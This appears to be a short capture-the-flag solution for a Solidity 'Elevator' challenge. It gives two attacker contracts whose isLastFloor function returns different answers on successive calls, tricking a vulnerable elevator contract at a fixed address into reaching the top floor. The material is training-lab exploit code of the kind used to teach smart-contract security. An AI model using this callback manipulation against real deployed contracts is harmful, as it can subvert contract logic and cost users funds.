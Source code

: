 Solution: ([Solidity inheritance](https://www.geeksforgeeks.org/solidity-inheritance/))

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface Building {
    function isLastFloor(uint) external returns (bool);
}

interface IElevator {
    function goTo(uint _floor) external;
}

contract MyBuilding is Building {

    bool public isLast = true;

    function isLastFloor(uint _n) override external returns (bool) {
        isLast = !isLast;
        return isLast;
    }

    function callGoTo(address _elevatorAddr) public {
        IElevator(_elevatorAddr).goTo(1);
    }
}
```

or

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface IElevator {
    function goTo(uint _floor) external;
}

contract Building {
    IElevator public el = IElevator(0xB5A83695305eCaF30Beed5DbC5B4fbA9C307608c);
    bool public switchFlipped = false;

    function hack() public {
        el.goTo(1);
    }

    function isLastFloor(uint) public returns (bool) {
        if (!switchFlipped) { // first call
            switchFlipped = true;
            return false;
        } else { // second call
          switchFlipped = false;
          return true;
        }
    }
}
```
